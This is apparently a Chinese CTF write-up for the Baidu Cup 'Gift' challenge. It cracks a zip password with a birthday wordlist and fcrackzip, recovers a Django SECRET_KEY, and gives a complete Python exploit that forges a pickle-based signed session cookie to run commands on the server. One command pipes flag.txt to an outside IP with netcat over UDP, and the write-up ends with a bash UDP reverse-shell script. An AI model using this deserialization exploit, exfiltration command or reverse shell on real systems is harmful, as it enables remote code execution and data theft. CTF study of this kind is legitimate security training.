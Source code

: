# 百度杯十月场 Gift
打开题目，post发get包,得到报错`More information is available with DEBUG=True.`，发现是django
```
POST / HTTP/1.1
Host: c0a0e53c0f2d4f4fa60e8850469e05c794f99e0dbd734ea1.changame.ichunqiu.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

github上找到压缩文件，破解密码解压发现是django的secret key

```
# 根据提示生成生日字典
python pydictor.py -plug birthday 19900101 20141231 --len 8 8
# 使用字典爆破压缩包，密码是20001111
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u crack_this.zip
```

找到django命令执行poc,然后命令执行get到flag
> 这里面有一个tcp无法使用，然后使用udp反弹命令执行的结果
```
# !/usr/bin/env python
# -*- coding:utf-8 -*-

import os
import requests
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import pickle

def session_gen(SECRET_KEY,command = 'ping -n 3 baidu.com',):
    class Run(object):
        def __reduce__(self):
            #return (os.system,('ping test.0y0.link',))
            return (os.system,(command,))
    SECRET_KEY = SECRET_KEY
    sess = signing.dumps(Run(), key = SECRET_KEY,serializer=PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
    print sess
    session = 'sessionid={0}'.format(sess)
    return session

def exp(url,SECRET_KEY,command):

    headers = {'Cookie':session_gen(SECRET_KEY,command)}
    proxy = {"http":"http://127.0.0.1:8080"}#设置为burp的代理方便观察请求包
    response = requests.get(url,headers= headers,proxies = proxy)
    #print response.content

if __name__ == '__main__':
    url = 'http://00c50c9507e542faaa207fce86cce2ab2c6b6da510204f61.changame.ichunqiu.com/'
    SECRET_KEY = 'oa4$kkk802=rfm@tl^e5yb3qvs_ea3r!m*&j+#_+s-9=xcieci'
    command = 'cat flag.txt | nc -4u -w1 12.12.12.12 4444'
    exp(url,SECRET_KEY,command)
```


另附udp反弹shell脚本：
#!/bin/bash 
exec 3>/dev/udp/127.0.0.1/8080
exec 2>&3 
exec 1>&3 
echo Welcom back 
cat 0<&3 | bash | while read line;do echo $line;done
```